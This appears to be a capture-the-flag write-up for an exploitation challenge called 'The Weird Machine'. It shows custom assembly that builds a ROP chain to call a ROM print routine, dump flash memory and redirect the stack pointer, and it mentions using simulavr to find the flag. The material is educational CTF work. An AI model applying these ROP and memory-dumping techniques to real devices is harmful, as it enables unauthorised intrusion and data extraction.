 # The Weird Machine (Challenge 10, Exploitation - 400pts)

>> Damn fridges. It seems there is no end to the problems they bring. And this time time it got even more difficult. I guess you already know in which direction this goes, right?

This is the continuation of the Hide & Seek challenge. The last simple code didn't work, it seems that the flag is not in the RAM anymore. What I did was to create a new code that dumps the flash to learn why it doesn't work anymore.

My way of this is by using ROP chain to call `puts_rom` (code at 0x494)


    xor flag,flag
    xor r1,r1
    mov.h r1, 0006
    mov.l r1, 0000
    xor flag, r1
    xor r1, r1
    mov.l r2, 4142 # ignored (will be popped)
    mov.h r2, 8a02 # 
    put r1, r2	#write r2 to r1
    mov.l r3, 4
    add r1, r3
    mov.l r2, OFFSET# offset  to read
    mov.h r2, 8702 # 
    put r1, r2
    add r1, r3
    mov.l r2, 0000
    mov.h r2, 0000
    put r1, r2
    add r1, r3
    mov.l r2, 5c02
    mov.h r2, ab02 #wait key
    put r1, r2

    #change stack ptr
    xor flag,flag
    xor r1, r1
    mov.l r1, 5b
    mov.h r2,05ff  # SPL SPH 
    mov.l r2,0000
    put r1, r2

The FLAG is not in the flash, so it needs to be called. The easiest way for me is to use simulavr.

 ![solution](./ctf.jpg?raw=true "solution")

